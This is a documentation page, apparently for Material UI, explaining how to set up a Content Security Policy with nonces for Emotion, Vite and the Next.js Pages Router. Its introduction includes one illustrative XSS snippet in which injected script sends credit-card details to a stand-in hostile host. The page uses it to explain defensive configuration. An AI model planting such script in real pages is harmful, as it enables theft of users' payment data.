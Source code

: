 # Content Security Policy (CSP)

This section covers the details of setting up a CSP.

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### CSP in Vite

When deploying a CSP using Vite, there are specific configurations you must set up due to Vite's internal handling of assets and modules.
See [Vite Features—Content Security Policy](https://vite.dev/guide/features.html#content-security-policy-csp) for complete details.

### Next.js Pages Router

For the Next.js Pages Router, after [setting up a nonce](https://nextjs.org/docs/app/building-your-application/configuring/content-security-policy#nonces), pass it to the Emotion cache in two places:

1. In `_document.tsx`:

```tsx
import {
  DocumentHeadTags,
  documentGetInitialProps,
  createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

type Props = DocumentInitialProps & DocumentHeadTagsProps & { nonce?: string };

export default function MyDocument(props: Props) {
  const { nonce } = props;

  return (
    <Html lang="en" className={roboto.className}>
      <Head>
        {/*...*/}
        <meta name="csp-nonce" content={nonce} />
        <DocumentHeadTags {...props} nonce={nonce} />
      </Head>
      <body>
        {/*...*/}
        <NextScript nonce={nonce} />
      </body>
    </Html>
  );
}

MyDocument.getInitialProps = async (ctx: DocumentContext) => {
  const { req } = ctx;
  const nonce = req?.headers['x-nonce'];
  if (typeof nonce !== 'string') {
    throw new Error('"nonce" header is missing');
  }

  const emotionCache = createEmotionCache({ nonce });
  const finalProps = await documentGetInitialProps(ctx, {
    emotionCache,
  });

  return { ...finalProps, nonce };
};
```

2. In `_app.tsx` (if you're setting up the `AppCacheProvider`):

```tsx
import { createEmotionCache } from '@mui/material-nextjs/v15-pagesRouter';
// other imports

export default function MyApp(props: AppProps & { nonce: string }) {
  const { Component, pageProps, nonce } = props;

  const emotionCache = useMemo(() => {
    const nonce = props.nonce || getNonce();

    return createEmotionCache({ nonce });
  }, [props.nonce]);

  return (
    <AppCacheProvider {...props} emotionCache={emotionCache}>
      {/* ... */}
    </AppCacheProvider>
  );
}

function getNonce(headers?: Record<string, string | string[] | undefined>) {
  if (headers) {
    return headers['x-nonce'] as string;
  }

  if (typeof document !== 'undefined') {
    const nonceMeta = document.querySelector('meta[name="csp-nonce"]');
    if (nonceMeta) {
      return nonceMeta.getAttribute('content') || undefined;
    }
  }

  return undefined;
}

MyApp.getInitialProps = async (appContext: AppContext) => {
  const nonce = getNonce(appContext.ctx?.req?.headers);
  if (typeof nonce !== 'string') {
    throw new Error('"nonce" header is missing');
  }

  return { ...otherProps, nonce };
};
```

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
